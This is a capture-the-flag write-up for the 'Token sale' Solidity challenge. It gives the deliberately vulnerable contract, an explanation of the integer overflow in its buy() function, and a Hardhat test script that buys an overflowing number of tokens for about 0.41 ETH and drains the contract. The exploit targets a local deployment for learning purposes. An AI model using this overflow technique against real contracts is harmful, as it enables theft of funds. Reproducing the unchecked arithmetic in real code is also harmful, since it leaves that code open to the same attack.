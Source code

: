 # Token sale

## topic

```solidity
pragma solidity ^0.4.21;

contract TokenSaleChallenge {
    mapping(address => uint256) public balanceOf;
    uint256 constant PRICE_PER_TOKEN = 1 ether;

    function TokenSaleChallenge(address _player) public payable {
        require(msg.value == 1 ether);
    }

    function isComplete() public view returns (bool) {
        return address(this).balance < 1 ether;
    }

    function buy(uint256 numTokens) public payable {
        require(msg.value == numTokens * PRICE_PER_TOKEN);

        balanceOf[msg.sender] += numTokens;
    }

    function sell(uint256 numTokens) public {
        require(balanceOf[msg.sender] >= numTokens);

        balanceOf[msg.sender] -= numTokens;
        msg.sender.transfer(numTokens * PRICE_PER_TOKEN);
    }
}
```

## analyse

This is an integer overflow vulnerability. This is the vulnerability code: 

```solidity
function buy(uint256 numTokens) public payable {
        require(msg.value == numTokens * PRICE_PER_TOKEN);
        balanceOf[msg.sender] += numTokens;
    }
```

we should know that:

- 1 ether equals 10^18
- if numTokens larger than type(uint256).max, it will cause an integer overflow vulnerability
- We have to get the maximum possible uint256 = 2^256 - 1, then divide it by 1 ether = 10^18.
- Then, we add 1 to the maxUint256, to ensure that when multiplied by 1 ether(10^18), it causes an overflow.
- Knowing that the overflow will happen, we need to know by how much in order to send the correct msg.value
- We have established that: ((2^256/10^18) + 1) * 10^18 = overflow. So, msg.value needed = overflow - (type(uint256).max + 1) .

```
msg.value == numTokens * PRICE_PER_TOKEN
2^256 / 10^18 + 1 = 115792089237316195423570985008687907853269984665640564039458
(2^256 / 10^18 + 1) * 10^18 - 2^256 = 415992086870360064 ~= 0.41 ETH
```

## solution

```js
import { expect } from "chai";
import { ethers } from "hardhat";

const { utils } = ethers;

describe("TokenSaleChallenge", () => {
  it("Solves the challenge", async () => {
    const myAddress = ethers.provider.getSigner().getAddress();
    const challengeFactory = await ethers.getContractFactory("TokenSaleChallenge");
    const challengeContract = await challengeFactory.deploy(myAddress, {
      value: utils.parseEther("1"),
    });
    await challengeContract.deployed();

    // msg.value == numTokens * PRICE_PER_TOKEN
    // 2^256 / 10^18 + 1 = 115792089237316195423570985008687907853269984665640564039458
    // (2^256 / 10^18 + 1) * 10^18 - 2^256 = 415992086870360064 ~= 0.41 ETH
    const buyTx = await challengeContract.buy("115792089237316195423570985008687907853269984665640564039458", {
      value: "415992086870360064",
    });
    await buyTx.wait();

    const sellTx = await challengeContract.sell(1);
    await sellTx.wait();

    expect(await challengeContract.isComplete()).to.be.true;
  });
});
```











